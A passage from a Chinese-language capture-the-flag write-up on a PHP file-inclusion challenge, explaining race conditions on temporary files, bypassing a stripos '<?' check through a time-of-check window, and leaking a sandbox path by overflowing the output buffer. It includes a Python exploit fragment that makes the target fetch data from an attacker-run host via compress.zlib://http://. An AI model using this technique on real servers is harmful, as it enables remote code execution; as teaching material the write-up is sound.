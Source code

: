 Copy

这样我在本机上用 fswatch 很明显可以看到临时文件已经生成，并且文件内容就是我们发送的内容。

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681202792594-bc5ecc69-5568-48b1-b195-22672a252530.png#id=kti0u&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

Keep Temp File

临时文件终究还是会被 php 删除掉的，如果我们要进行包含的话，就需要利用一些方法让临时文件尽可能久的留存在服务器上，这样我们才有机会去包含它。

所以这里是我们需要竞争的第一个点，基本上我们有两种方法让它停留比较久的时间：

- 使用大文件传输，这样在传输的时候就会有一定的时间让我们包含到文件了。
- 使用 FTP 速度控制，大文件传输根本上还是传输速度的问题，我们可以通过一些方式限制传输速率，比较简单的也可以利用compress.zlib://ftp://形式，控制 FTP 速度即可

Bypass Waf

接下来我们就要看如何来对关键地方进行绕过了。

```php
if (stripos(file_get_contents($_POST['file']), '<?') === false) {
        include_once($_POST['file']);
    }
```

Copy

这个地方问了很多师傅，包括一血的 TokyoWesterns 的队员以及参考了主要的公开 WP，基本都是利用两个函数之间极端的时间窗进行绕过。

什么意思呢？也就是说，在极其理想的情况下，我们通过自己的服务先发送一段垃圾数据，这时候通过stripos的判断就是没有 PHP 代码的文件数据，接着我们利用 HTTP 长链接的形式，只要这个链接不断开，在我们绕过第一个判断之后，我们就可以发送第二段含有 PHP 代码的数据了，这样就能使include_once包含我们的代码了。

因为我们无法知道什么时候能绕过第一个判断，所以这里的方法只能利用竞争的形式去包含临时文件，这里是第二个我们需要竞争的点。

Leak Dir path

最后，要做到文件包含，自然得先知道它的文件路径，而文件路径每次都是随机的，所以我们又不得不通过某些方式去获取路径。

虽然我们可以直接看到题目是直接给出了路径，但是乍一看代码我们貌似只能等到全部函数结束之后才能拿到路径，然而之前我们说到的需要保留的长链接不能让我们立即得到我们的 sandbox 路径。

所以我们需要通过传入过大的 name 参数，导致 PHP output buffer 溢出，在保持连接的情况下获取沙箱路径，参考代码：

```python
data = '''file=compress.zlib://http://192.168.151.132:8080&name='''.strip() + 'a' * (1024 * 7 + 882)
    r.send('''POST / HTTP/1.1\r
Host: localhost\r
Connection: close\r
Content-Length: {}\r
Content-Type: application/x-www-form-urlencoded\r
Cookie: PHPSESSID=asdasdasd\r
\r
{}\r
'''.format(len(data), data))
```

Get Flag

所以整个流程我们可以总结为以下：

利用 compress.zlib://http://orcompress.zlib://ftp:// 来上传任意文件，并保持 HTTP 长链接竞争保存我们的临时文件
